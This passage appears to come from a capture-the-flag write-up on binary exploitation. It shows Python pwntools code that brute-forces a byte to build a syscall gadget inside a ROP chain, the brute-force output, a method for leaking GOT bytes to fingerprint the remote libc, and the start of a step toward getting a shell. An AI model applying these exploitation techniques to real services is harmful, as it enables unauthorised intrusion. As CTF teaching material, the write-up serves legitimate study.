 ```python
        log.info("original chain created")


        with open("payload.bin","rb") as f:
            r.send(f.read() + p32(chain_start-4) + raw_rop)
            time.sleep(1)
            r.send(pivot_payload)
            time.sleep(1)
            r.send(syscall_gadget)
        received = r.recvall()
        with file_semaphore:
            with open("brute.log", "a") as f:
                f.write(f"{syscall_gadget_no} -> {received}\n")
        with semaphore:
            print(f"finishing {syscall_gadget_no} - {received}")
        return (syscall_gadget_no, received)
    except:
        try_byte(syscall_gadget_no)

from multiprocessing import Pool

pool = Pool(4)

with open("result.log", "w") as f:
    for (a,b) in pool.map(try_byte, range(256)):
        f.write(f"{syscall_gadget_no} -> {received}\n")
```

This turned out to work fine (although it was quite close to the end, I was getting a little scared) and I discovered that 244 (0xf4) was the correct byte to overwrite with to construct a syscall gadget. 

```
230 -> b"\nSHE'S A WITCH BURN HER!\n"
244 -> b"\nPSHE'S A WITCH BURN HER!\n"
245 -> b"\nSHE'S A WITCH BURN HER!\n"
```
Once I discovered how to leak a single byte, I leaked individual bytes of the GOT by varying the number of INC ECX gadgets to determine the lower 12 bits of \_\_libc\_start\_main (0xa50) and setvbuf (0x700). I then used [libc.rip](https://libc.rip/) to determine that the libc version on remote was libc6-i386_2.28-10_amd64. 

# getting a shell!

At this point I had all the building blocks necessary to get a shell, I just needed to refine and put it together. The key difference between my earlier rop chain and the chain I used to get a shell was the size of my information leak. I lacked any gadgets to control edx directly, so I was left to rely on whatever had previously set it -- in this case the read call I used to turn read into a syscall gadget. Naively, this left 1 in edx because I was overwriting a single byte.  I realized I could take advantage of the fact that read length is a *maximum* and it will happily read fewer bytes if that is all that is present. I adjusted it to read 4 bytes (a full word leak) and then dropped a time.sleep after sending only a single byte to force read to return early. 
